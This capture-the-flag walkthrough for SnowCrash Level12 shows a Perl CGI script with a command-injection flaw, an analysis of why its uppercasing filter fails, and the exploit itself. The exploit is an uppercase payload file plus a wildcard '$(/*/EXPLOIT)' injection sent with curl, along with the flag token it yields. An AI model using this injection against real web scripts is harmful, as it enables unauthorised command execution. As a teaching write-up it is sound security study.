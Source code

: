 # SnowCrash Level12 Walkthrough

## Challenge Description

Exploit a Perl CGI script vulnerable to command injection through unsanitized user input.

## Initial Analysis

```bash
level12@SnowCrash:~$ ls -all
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
```

## Understanding the Vulnerability

### 1. Code Analysis

```bash
cat level12.pl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

#### Core Functionality

1. Web Interface: Listens on port 4646 as a CGI script
2. Input Parameters: Accepts x and y via HTTP GET/POST
3. Output: Returns "." (failure) or ".." (success)

#### Vulnerability Chain

1. Takes user inputs (x, y parameters)
2. Applies weak sanitization:
3. Converts to uppercase (test → TEST)
4. Truncates after first space (a b → A)
5. Dangerously injects it into a shell command:

```perl
`egrep "^$sanitized_input" /tmp/xd`
```

### Exploit Steps

1. Create Payload File

```bash
echo "getflag > /tmp/flag12" > /tmp/EXPLOIT
chmod +x /tmp/EXPLOIT
```

Important Note:
We used capital letters in the filename (EXPLOIT) because:

The script converts the input to uppercase

Without this, we'd get wrong paths like:

```text
/tmp/EXPLOIT → /TMP/EXPLOIT (invalid path)
```

We still face the directory path issue. To solve this problem we can simply use the wildcard \* character so it executes every file named EXPLOIT in all directory.

So, the final command will be:

```bash
level12@SnowCrash:~$ curl 'localhost:4646/?x=$(/*/EXPLOIT)'
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

2. Verify execution

```bash
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

## Security Lessons

1. **Never trust user input**: What goes in commands can hack your system
2. **Changing to uppercase ≠ security**: Hackers can still inject commands
3. **Wildcards (\*) are risky**: They bypass safety checks

## Next Steps

With the flag g1qKMiRpXf53AWhDaU7FEkczr, we can now proceed to Level13 of the SnowCrash challenge.
